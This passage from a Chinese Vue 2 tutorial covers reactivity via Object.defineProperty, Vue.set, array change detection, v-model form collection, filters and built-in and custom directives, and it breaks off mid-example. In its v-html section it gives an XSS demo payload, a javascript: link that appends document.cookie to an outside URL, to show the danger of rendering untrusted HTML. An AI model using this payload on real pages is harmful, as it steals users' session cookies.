所谓**数据劫持**，就是将原本普通的数据对象，修改为拥有getter与setter方法的数据对象。一旦有人修改数据，setter就会知道，开发者就可以在setter中做各种处理。这种效果就是数据劫持。

### 8.1 Vue监测对象数据

数据监测模拟写法,使用定时器模拟，最简单监测就是间隔一段时间询问一次。

```js
//使用定时器模拟数据监测，这种虽然有效，但内容写死了，且一个属性就要开启一个定时器，效率太低
 let tmp = "张三";
 setInterval(() => {
   if (data.name !== tmp) {
     tmp = data.name;
     console.log("name被修改了");
   }
 }, 
             
 //错误写法，死递归写法，栈会溢出，name属性既不能读也不能写，name读取就会调用get，然后data.name再次读取再次调用无限循环
 //   Object.defineProperty(data, "name", {
 //     get() {
 //       return data.name;
 //   
 //     set(val) {
 //       data.name = val;
 //     }
 //   });
```

Vue实例中的`_data`就是由data创建的，查看`_data`的内容, **reactive**是响应式的含义。



根据上边内容，个人编写代码简单实现，核心依然是使用`Object.defineProperty`的`setter`进行数据变化的监视。

对于data中的对象配置内容，Vue监测实现全流程如下：

1. 创建一个观察者构造函数Observer；
2. 汇总data对象中所有的属性形成一个数组；
3. 遍历数组；
4. 把data对象的属性创建一个相同的属性在Observer实例对象上，然后编写getter与setter方法；
5. setter中就编写Vue解析数据模板，生成虚拟DOM,进行DOM比较，生成真实DOM等内容，`setter`的调用就是data数据变化的时候。
6. 创建一个Observer的实例对象，用于监视data中的属性的变化
7. 最后准备一个vm实例对象,让它的_data就是obs实例对象，也就是`vm._data = data = obs`;

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <script type="text/javascript">
      let data = {
        name: "张三",
        address: "北京"
      };  
      // Observer 观察者模式构造函数,Vue就是通过该函数实现data数据监视的
      function Observer(obj) {
        //a.汇总对象中所有的属性形成一个数组
        const keys = Object.keys(obj);
        //b.遍历
        keys.forEach((k) => {
          //this是Observer实例对象
          //k是属性名称
          //把obj对象的属性创建一个相同的在Observer实例对象上 然后形成代理
          Object.defineProperty(this, k, {
            get() {
              return obj[k];
            },
            set(val) {
              //set中监测数据变化
              console.log(
                `${k}被修改了，vue要去解析数据模板，生成虚拟DOM,进行DOM比较，生成真实DOM`
              );
              obj[k] = val;
            }
          });
        });
      }

      //创建一个监视的实例对象，用于监视data中的属性的变化
      const obs = new Observer(data);

      //准备一个vm实例对象,让它的_data就是obs实例对象
      let vm = {};
      vm._data = data = obs;
    </script>
  </body>
</html>
```

该实现是Vue的简单版本，一是没有做数据代理，二是没有考虑对象中包含其他对象或数组等复杂结构的情况。

### 8.2 Vue.set

如果需要后续**追加响应式属性**，不能直接使用`vm._data.xxx='xxx值'`添加属性，该属性不是响应式的。更不能直接在vm上添加，因为vm上的属性都是通过`_data`的属性做的代理。

要追加响应式数据有两种方式：

1. 使用Vue提供的API`Vue.set(target,key，val)`，target是谁上边添加，key是属性名，val是属性值。
2. 使用vm实例上的`$set(target,key，val)`方法。

set用法是向响应式对象中添加一个属性，并确保这个**新属性同样是响应式的，且触发视图更新**。它必须用于响应式对象上添加新属性，因为Vue无法探测普通的新增属性。

> 注意：set方法只能给**data中的某个对象添加属性**，不能直接给**vm实例**或**vm实例的根数据对象**添加，也就是target不能是`vm`或者`vm._data`。如果添加会报错。

### 8.3 Vue监测数组数据

说明监测数组原理前，先展示一个错误修改data数据的案例,**数组数据直接使用下标赋值导致Vue数据监测失效**。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>更新数据的问题</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <h2>人员列表</h2>
      <button @click="updateMei">更新马冬梅的信息</button>
      <ul>
        <li v-for="(p,index) of persons" :key="index">
          {{p.name}}-{{p.age}}-{{p.sex}}
        </li>
      </ul>
    </div>

    <script>
      Vue.config.productionTip = false;

      const vm = new Vue({
        el: "#root",
        data: {
          persons: [
            { id: "001", name: "马冬梅", age: 18, sex: "女" },
            { id: "002", name: "周冬雨", age: 39, sex: "女" },
            { id: "003", name: "周杰伦", age: 20, sex: "男" },
            { id: "004", name: "温兆伦", age: 40, sex: "男" }
          ]
        },
        methods: {
          updateMei() {
            //正确的更新方式
            // this.persons[0].name = "张三";
            // this.persons[0].age = 11;
            // this.persons[0].sex = "男";

            //错误的更新方式,persons数据已经被修改，但Vue检测不到数据变化，因此页面内容不会变化
            // this.persons[0] = { id: "001", name: "张三", age: 11, sex: "男" };
            //真正生效的写法 使用splice方法修改数组
            this.persons.splice(0,1,{ id: "001", name: "张三", age: 11, sex: "男" })
          }
        }
      });
    </script>
  </body>
</html>
```

**data中数组元素不是通过getter与setter进行数据监测的**。上边的问题和下图都可以看出。



数组中会修改自身数组内容的方法`push`、`pop`、`shift`、`unshift`、`splice`、`sort`、`reverse`。Vue对其进行**封装**，用于完成数据监控。Vue在其中做了两件事：

1. 先调用原本数组方法的内容；
2. 确认数组数据发生变化，Vue重新解析数据模板，生成虚拟DOM,进行DOM比较，生成真实DOM等内容。这样就完成数据监测.

总结，Vue是完成数组数据监测是通过对数组方法封装完成的。

除了上边数组修改的方法外，还有两种方式修改数组也会被Vue监测到：

1. **直接赋值整个数组**，这样就相当于修改数组属性，该属性是有`setter`，因此可以直接监测到。`filter`方法就使用该方式完成过滤；
2. 使用`Vue.set`或`vm.$set方法`，`Vue.set(vm._data.数组，修改属性的索引值，'修改值')`。

**数据监测综合练习案例**

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>更新数据的问题</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <h1>学生信息</h1>
      <button @click="student.age++">年龄+1</button> <br />
      <button @click="addSex">添加性别属性，默认值为男</button>
      <button @click="student.sex='未知'" v-if="student.sex">修改性别</button ><br />
      <button @click="addFriend">在列表首位添加一个朋友</button> <br />
      <button @click="updateFirstFriendName"> 修改第一个朋友的名字为：张三</button><br />
      <button @click.once="addHobby">添加一个爱好</button><br />
      <button @click="updateHobby">修改第一个爱好为：开车</button> <br />
      <button @click="removeSmokeHobby">过滤掉抽烟的爱好</button> <br />
      <h1>学生信息</h1>
      <h2>学生名称：{{student.name}}</h2>
      <h2>学生年龄：{{student.age}}</h2>
      <!-- 追加的属性，student.sex是undefined，Vue解析后展示为空字符串 -->
      <h2 v-if="student.sex">学生性别：{{student.sex}}</h2>
      <h2>爱好</h2>
      <ul>
        <li v-for="(h,index) in student.hobby" :key="index">{{h}}</li>
      </ul>
      <h2>朋友们</h2>
      <ul>
        <li v-for="(f,index) in student.friends" :key="index">
          {{f.name}}-{{f.age}}
        </li>
      </ul>
    </div>

    <script>
      Vue.config.productionTip = false;

      const vm = new Vue({
        el: "#root",
        data: {
          name: "北大",
          address: "北京",
          student: {
            name: "张三",
            age: 20,
            hobby: ["抽烟", "烫头", "喝酒"],
            friends: [
              { name: "sss", age: 35 },
              { name: "tony", age: 22 }
            ]
          }
        },
        methods: {
          addSex() {
            //追加属性方式1，因为数据代理 _data可省略
            // Vue.set(this._data.student,'sex','男');
            this.$set(this.student, "sex", "男");
          },
          addFriend() {
            //朋友是数组中的对象，使用数组方法添加,该方法添加的对象也是响应式的
            this.student.friends.unshift({ name: "jack", age: 70 });
          },
          updateFirstFriendName() {
            //验证新加的对象属性是否为响应式的
            this.student.friends[0].name = "张三";
            this.student.friends[0].age = 12;
            //错误写法 不能直接赋值对象
            // this.student.friends[0]={name:'张三',age:12};
            this.student.friends.splice(0, 1, { name: "张三2", age: 22 });
          },
          addHobby() {
            //添加一个抽烟爱好
            this.student.hobby.unshift("抽烟");
          },
          updateHobby() {
            this.student.hobby.splice(0, 1, "开车");
            //修改第二个爱好为新爱好
            this.student.hobby.splice(1, 1, "新爱好");
            //修改的第二种方式，修改第三个爱好 _data可省略
            Vue.set(this._data.student.hobby, 2, "sss");
          },
          removeSmokeHobby() {
            //直接赋值整个数组也是响应式的
            this.student.hobby = this.student.hobby.filter((h) => {
              return h != "抽烟";
            });
          }
        }
      });
    </script>
  </body>
</html>
```

## 九、收集表单数据(常用)

收集表单数据：

1. 若为`<input type="text"/>`,则v-model收集的是value值，用户输入就是value值；
2. 若为`<input type="radio"/>`,则v-model收集的是value值，且要给标签配置value值；
3. 若为`<input type="checkbox"/>`:
   + 如果没有配置input的value属性，则收集的是checked的布尔值。
   + 如果配置了input的value属性，v-model初始值如果为**非数组**，那么收集的依然是checked值。v-model初始值是**数组**，那么收集的就是value值组成的数组
4. v-model三个常用修饰符：
   + `lazy`:失去焦点再收集数据；
   + `number`:输入字符串转化为有效的数字；
   + `trim`:输入首尾空格过滤；

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>收集表单数据</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <!-- 不需要action提交表单, 收集数据使用ajax实现无刷新跳转-->
      <!-- prevent阻止表单默认跳转页面的行为 -->
      <form @submit.prevent="demo">
        <!-- v-model收集数据 trim修饰符跟js中trim方法一样，移除字符串前后的空字符-->
        账号: <input type="text" v-model.trim="userInfo.account" /> <br />
        密码:
        <input type="password" v-model="userInfo.password" autocomplete="off"/><br />
        <!-- v-model的修饰符 number是设置收集的数据类型，也就是vue做数据转化 -->
        年龄: <input type="number" v-model.number="userInfo.age" /> <br />
        性别:
        <!-- radio name相同表示一组数据,radio默认没有vlaue值，因此要设置value值后使用v-model才生效-->
        男<input type="radio" name="sex" v-model="userInfo.sex" value="male" />
        女<input type="radio" name="sex" v-model="userInfo.sex" value="famale"/>
        <br />
        <!-- checkbox 默认收集的数据是某一个标签的checked的值 true与false -->
        <!-- 要想v-model生效，还是要设置value值，否则绑定的值是统一的true与false，无法区分box框-->
        爱好: 
        读书<input type="checkbox" v-model="userInfo.hobby"value="study"/>
        打游戏<input type="checkbox" v-model="userInfo.hobby" value="game" />
        吃饭<input type="checkbox" v-model="userInfo.hobby" value="eat" />
        <br />
        所属校区:
        <select v-model="userInfo.city">
          <option value="">请选择校区</option>
          <option value="beijing">北京</option>
          <option value="shanghai">上海</option>
          <option value="chongqing">重庆</option>
        </select>
        <br /><br />
        其他信息:
        <!-- lazy表示懒加载，也就是不再实时触发数据收集,而是失去焦点的瞬间收集数据 -->
        <textarea v-model.lazy="userInfo.other"></textarea> <br />
        <!-- 只有一个数据的checkbox，可以直接使用v-model -->
        <input type="checkbox" v-model="userInfo.agree" />阅读并接受
        <a href="http://www.baidu.com">《用户协议》</a>
        <button>提交</button>
      </form>
    </div>

    <script>
      Vue.config.productionTip = false;
      //写法1
      //   const vm = new Vue({
      //     el: "#root",
      //     data: {
      //       account: "",
      //       password: "",
      //       sex: "male", //默认男
      //       hobby: [], //使用数组才能收集多个数据,初始值设置会影响后续收集的数据结构
      //       city: "beijing", //默认选择北京
      //       other: "",
      //       agree: ""
      //     },
      //     methods: {
      //       demo() {
      //         //输出表单数据，可以直接转化_data中的数据内容，但一般不要这样做
      //         console.log(JSON.stringify(this._data)); //{"account":"11","password":"22",:...}
      //       }
      //     }
      //   });

      //写法2 使用对象包裹属性
      const vm = new Vue({
        el: "#root",
        data: {
          userInfo: {
            account: "",
            password: "",
            age:18,
            sex: "male", //默认男
            hobby: [], //使用数组才能收集多个数据,初始值设置会影响后续收集的数据结构
            city: "beijing", //默认选择北京
            other: "",
            agree: ""
          }
        },
        methods: {
          demo() {
            //输出表单数据，可以直接转化_data中的数据内容，但一般不要这样做
            console.log(JSON.stringify(this.userInfo));
           //最终结果：{"account":"ss","password":"ssa","age":11,"sex":"male","hobby":["study","game"],"city":"beijing","other":"da","agree":true}
          }
        }
      });
    </script>
  </body>
</html>
```

## 十、过滤器 filters

**过滤器**主要用于对要显示的数据进行特定格式化后再显示，**适用于一些简单逻辑的处理**。复杂的逻辑还是使用**计算属性**或者**方法**完成。

过滤器分为两种：1.**局部过滤器**，注册在`new Vue`中的`filters`属性中，2.**全局过滤器**，使用`Vue.filter(name,callback)`注册。

过滤器可以在**插值语法**或`v-bind`的属性上使用，其格式为`xxx | 过滤器名`,xxx作为过滤器参数传入。

过滤器可接收额外参数，多个过滤器也可以串联使用，它并不会改变原本的数据，而是产生**经过条件过滤**的新的数据。

案例：格式化时间，使用dayjs插件完成格式化，使用过滤器实现功能。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>过滤器</title>
    <script src="../js/vue.js"></script>
    <script src="../js/dayjs.min.js"></script>
  </head>
  <body>
    <div id="root">
      <h2>显示格式化后的时间</h2>
      <!-- 计算属性实现 -->
      <h3>现在是：{{fmtTime}}</h3>
      <!-- methods实现 -->
      <h3>现在是：{{getFmtTime()}}</h3>
      <!-- 过滤器实现 过滤器本质是函数，前面time对象会作为函数的第一个参数传入 -->
      <h3>现在是：{{time | timeFormater}}</h3>
      <!-- 过滤器传递参数,不加小括号参数，就只会传入time对象一个参数，添加了小括号，则会作为后面的参数传入 -->
      <h3>现在是：{{time | timeFormater('YYYY年MM月DD日')}}</h3>
      <!-- 多个过滤器可以串联，每个过滤器的结果会作为下一个过滤器的参数传入 -->
      <!-- 效果为截取年份的内容 -->
      <h3>现在是：{{time | timeFormater('YYYY年MM月DD日') | mySlice}}</h3>

      <!-- 过滤器可与v-bind一起使用 不可与v-model一起使用会报错-->
      <h3 :x="msg | mySlice">未来</h3>
      <!-- <h3 v-model="msg | mySlice">未来</h3> -->
    </div>

    <div id="root2">
      <h2>{{msg | mySlice}}</h2>
    </div>
    <script>
      Vue.config.productionTip = false;

      //全局过滤器
      Vue.filter("mySlice", function (value) {
        return value.slice(0, 5);
      });

      const vm = new Vue({
        el: "#root",
        data: {
          time: Date.now(), //当前时间戳
          msg: "你好！Vue"
        },
        methods: {
          getFmtTime() {
            return dayjs(this.time).format("YYYY年MM月DD日 hh:mm:ss");
          }
        },
        computed: {
          fmtTime() {
            return dayjs(this.time).format("YYYY年MM月DD日 hh:mm:ss");
          }
        },
        // 过滤器本质就是一个函数,其返回值就是一个过滤器的结果 str使用ES6的默认参数
        //写在new Vue中的过滤器都是局部过滤器，只能当前Vue实例可以使用
        filters: {
          timeFormater(value, str = "YYYY年MM月DD日 hh:mm:ss") {
            return dayjs(value).format(str);
          },
          //当局部与全局有同名过滤器，局部的会覆盖全局的
          mySlice(value) {
            return value.slice(0, 4);
          }
        }
      });

      new Vue({
        el: "#root2",
        data: {
          msg: "hello,aaa!"
        }
      });
    </script>
  </body>
</html>
```

运行结果



## 十一、Vue指令

Vue内置指令就是Vue内部已经定义好的指令，可以直接使用。我们之前以及学过一些内置指令：

1. `v-bind:xxx`:单向绑定解析表达式，可简写为`:xxx`;
2. `v-model:value`:双向绑定解析表达式，可简写为`v-model`;
3. `v-for`:遍历数组/对象/字符串;
4. `v-on`:绑定监听事件，可简写为`@`;
5. `v-if`:条件渲染(动态控制节点是否存在);
6. `v-else-if`:条件渲染(动态控制节点是否存在);
7. `v-else`:条件渲染(动态控制节点是否存在);
8. `v-show`:条件渲染(动态控制节点是否展示);

除了**内置指令**外，我们也可以**自定义指令**完成特殊功能。

### 11.1 v-text

`v-text`指令，其作用是**向其所在的节点中渲染文本内容**，与插值语法的区别就是`v-text`会替换掉节点中的内容，插值语法不会。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>收集表单数据</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <!-- 使用插值语法展示数据 -->
      <div>{{name}}</div>
      <div>你好，{{name}}</div>
      <div>{{str}}</div>
      <!-- 使用v-text展示数据 -->
      <div v-text="name"></div>
      <!-- v-text会拿到数据替换div中文本内容，sss文本是无效的 -->
      <div v-text="name">你好，</div>
      <!-- v-text不会解析html标签，是直接将全部内容作为字符串处理 -->
      <div v-text="str">你好，</div>
    </div>

    <script>
      Vue.config.productionTip = false;

      const vm = new Vue({
        el: "#root",
        data: {
          name: "张三",
          str: "<h3>你好</h3>"
        }
      });
    </script>
  </body>
</html>
```

### 11.2 v-html

`v-html`指令作用是在指定节点中渲染包含html结构的内容，它跟`v-text`效果很相似。两者区别在于`v-html`可以解析html语句，相当于js中innerHtml的效果。

使用`v-html`有一定的安全隐患，在网站上动态渲染任意html是非常危险的，容易导致XSS攻击，一定要在可信的内容上使用v-html,永远不要用在用户提交的内容上。以**非法获取浏览器中的cookie**为例。cookie操作简易原理图如下：



> 注意：**不同浏览器中的cookie是相互独立的**。也就是不能跨浏览器去读取cookie。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>v-html</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <div>你好{{name}}</div>
      <!-- v-html可以解析html字符，跟innerHtml效果相似 -->
      <div v-text="str"></div>
     <!-- v-html有一定的安全隐患，就是XSS攻击，在内容中编写获取隐私信息的代码 例如获取cookie-->
      <!--  获取到你的cookie ?a=1;%20b=2 这里的cookie是自己的写的用于测试的-->
      <div v-html="str1"></div>
    </div>

    <script>
      Vue.config.productionTip = false;

      const vm = new Vue({
        el: "#root",
        data: {
          name: "张三",
          str: "<h3>你好</h3>",
          // document.cookie可以获取全部cookie，以参数的形式传入
          str1: "<a href=javascript:location.href='http://www.baidu.com?'+document.cookie>你好这是一个有病毒的链接,会偷取你的cookie内容</a>"
        }
      });
    </script>
  </body>
</html>
```

cookie中也有保护机制`HttpOnly`如果被勾选，就表示只有http协议可以携带cookie，其他协议都无效。`document.cookie`只能获取非`HttpOnly`的cookie。

### 11.3 v-cloak

`v-cloak`指令没有值，本质上它是一个**特殊的属性**，Vue实例创建完毕并接管容器后，会删掉`v-cloak`属性。

使用css配合`v-cloak`可以解决**网速慢**是页面展示出为解析的`{{xxx}}`的问题。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>v-cloak</title>
    <style>
      /* css查询到所有v-cloak属性的元素 */
      [v-cloak] {
        display: none;
      }
    </style>
    <script src="../js/vue.js"></script>
    <!-- 可以注释掉vue引入演示效果 -->
    <!-- <script src="../js/vue.js"></script> -->
  </head>
  <body>
    <div id="root">
      <!-- v-cloak要搭配css使用，表示元素vue未管理时展示css样式，vue管理就被移除v-cloak展示正常内容 -->
      <h2 v-cloak>你好{{name}}</h2>
    </div>

    <script>
      Vue.config.productionTip = false;

      const vm = new Vue({
        el: "#root",
        data: {
          name: "张三"
        }
      });
    </script>
  </body>
</html>
```

### 11.4 v-once

`v-once`指令没有值，`v-once`所在的节点在**初次动态渲染后就视为静态内容**了，以后数据的改变不会引起`v-once`所在结构的更新，可用于优化性能。**once**就是一次的意思，该指令就是只渲染一次的效果。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>v-once</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <!-- v-once只在初次渲染后就不会再渲染，变成静态内容了 -->
      <h2 v-once>初始化的n值是:{{n}}</h2> <!-- 效果n值始终为1 -->
      <h2>当前的n值是:{{n}}</h2>
      <button @click="n++">点我n+1</button>
    </div>

    <script>
      Vue.config.productionTip = false;

      const vm = new Vue({
        el: "#root",
        data: {
          n: 1
        }
      });
    </script>
  </body>
</html>
```

### 11.5 v-pre

`v-pre`指令没有值，它可以让Vue跳过其所在节点的编译过程。本质就是过滤节点，让Vue编译时忽略一些内容。

利用它跳过没有指令的语法或者没有使用插值语法的节点会加快Vue编译，提高代码性能。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>v-pre</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <!-- 正确用法，让vue跳过静态内容 -->
      <h2 v-pre>普通的静态内容</h2>
      <!-- 不好的用法，让vue跳过内容，会让插值语法失效，按钮绑定也失效 -->
      <h2 v-pre>当前的n值是:{{n}}</h2>
      <button v-pre @click="n++">点我n+1</button>
    </div>

    <script>
      Vue.config.productionTip = false;

      const vm = new Vue({
        el: "#root",
        data: {
          n: 1
        }
      });
    </script>
  </body>
</html>
```

### 11.6 Vue自定义指令

所谓自定义指令，就是程序员自己按照Vue的格式编写一些自己的指令用于满足特定的需求。

自定义指令主要分为两种：

1. **全局指令**：定义在`Vue.directive(指令名，配置内容)`方法上，配置方式有**函数式**与**对象式**两种;
2. **局部指令**：定义在`new Vue`中，配置在属性`directives`上，配置方式有**函数式**与**对象式**两种。

配置对象中常用的3个回调函数：(其中函数式就是把`bind`与`update`两个回调结合在一个函数中)

+ `bind`:指令与元素成功绑定时调用；
+ `inserted`:指令所在元素被插入页面时调用；
+ `update`：指令所在的模板结构被重新解析式调用；

指令定义时的名称不加v-,但使用时必须叫v-。指令名是多个单词，推荐使用**kebab-case命名方式**，不要用**camelCase命名**。

案例：编写一个`v-big`指令，让其有`v-text`的功能，但会把绑定的数值放大10倍。

​     编写一个`v-fbind`指令，和`v-bind`功能类似，但可以让其所绑定的input元素默认获得焦点。

`v-fbind`不能使用函数式的原因分析,获取焦点的代码`focus`执行时机不同，可能效果不同。在**指令与元素成功绑定**时,内容都在内存中，元素是没有渲染到页面的，因此执行`focus`会无效。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>原生代码分析</title>
    <style>
      .demo {
        background-color: orange;
      }
    </style>
  </head>
  <body>
    <button id="btn">点击创建一个input框</button>
    <button id="btn2">点击创建有问题的input框</button>
    <hr />
    <script>
      const btn = document.getElementById("btn");
      //正确的创建顺序,创建的input框能获取焦点
      btn.onclick = () => {
        const input = document.createElement("input");
        //这些属性的设置在元素追加前都是有效的
        input.className = "demo";
        input.value = 99;
        input.onclick = () => {
          alert(1);
        };
        document.body.appendChild(input);
        input.focus();
        input.parentElement.style.backgroundColor = "skyblue";
      };

      btn2.onclick = () => {
        const input = document.createElement("input");
        input.className = "demo";
        input.value = 99;
        input.onclick = () => {
          alert(1);
        };
        //获取焦点在文本框追加到页面之前，执行是无效的
        input.focus();
        //会报错，因为没追加的元素是没有父元素的
        input.parentElement.style.backgroundColor = "skyblue";
        document.body.appendChild(input);
      };
    </script>
  </body>
</html>
```

案例代码

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>自定义指令</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <h2>{{name}}</h2>
      <h2>当前的n值是:<span v-text="n"></span></h2>
      <h2>放大10倍后的n值是:<span v-big="n+1"></span></h2>
      <button @click="n++">点我n++</button>
      <hr />
      <input type="text" v-bind:value="n" /> <br />
      <input type="text" v-fbind-error:value="n" /> <br />
      <input type="text" v-fbind:value="n" />
    </div>

    <div id="root2">
      <h2>放大10倍后的x值是:<span v-big="x"></span></h2>
      <button @click="x++">点我n++</button>
      <input type="text" v-fbind:value="x" />
    </div>

    <script>
      Vue.config.productionTip = false;
      //1. 全局指令 函数式与对象式都可用
      Vue.directive("big", function (element, binding) {
        element.innerText = binding.value * 10; //修改元素值，操作DOM元素
      });
      Vue.directive("fbind", {
        bind(element, binding) {
          element.value = binding.value; //修改元素值，操作DOM元素
        },
        //指令所在元素被插入页面时调用inserted函数
        inserted(element, binding) {
          element.focus();
        },
        //指令所在的模板被重新解析时
        update(element, binding) {
          element.value = binding.value;
        }
      });

      const vm = new Vue({
        el: "#root",
        data: {
          n: 1,
          name: "sss"
        },
        //2. 局部指令，只对当前Vue实例有效,同名依然会覆盖全局指令
        //自定义指令 directive翻译就是指令的意思 指令中的this都是指向window，因为指令中是操作元素的，不需要vm。
        directives: {
          //a. 函数式,两个参数，参数一 element绑定元素的实例，参数二，binding对象，包含指令的各种参数，其中value属性最常用
          //自定义指令的函数被调用的时机：1.指令与元素成功绑定时(一上来)，2.指令所在的模板被重新解析时，页面任何元素的data变化，都可能重新解析模板
          big(element, binding) {
            console.log(element); //<span>​20​</span>​
            console.log(binding);
            console.log(binding.expression); //绑定的表达式 n+1
            console.log(binding.modifiers); //{}
            console.log(binding.name); //绑定名称 big
            console.log(binding.rawName); //指令名称 v-big
            console.log(binding.value); //2
            element.innerText = binding.value * 10; //修改元素值，操作DOM元素
          },
          //函数式无法一开始获取焦点，点击时能获取焦点
